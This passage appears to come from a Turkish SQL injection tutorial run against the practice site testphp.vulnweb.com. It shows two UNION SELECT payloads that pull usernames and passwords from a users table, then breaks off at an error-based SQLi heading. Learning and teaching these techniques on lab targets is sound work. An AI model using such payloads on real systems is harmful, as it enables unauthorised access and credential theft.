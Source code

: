 ```
http://testphp.vulnweb.com/listproducts.php?cat=-1
UNION SELECT 1,2,3,4,5,6,uname,8,9,10,11 FROM users
```

![Untitled](0x01%20104201f95d914f67830bee663ffbdc7f/Untitled%2037.png)

yeni bir sorgu, artık sqlmap’in nasıl çalıştığını da anlayabilmekteyiz.

```
http://testphp.vulnweb.com/listproducts.php?cat=-1
UNION SELECT 1,2,3,4,5,6,concat(uname,':ilker:',pass),8,9,10,11 FROM users
```

![Untitled](0x01%20104201f95d914f67830bee663ffbdc7f/Untitled%2038.png)

---

# **2- Error-based SQLi**
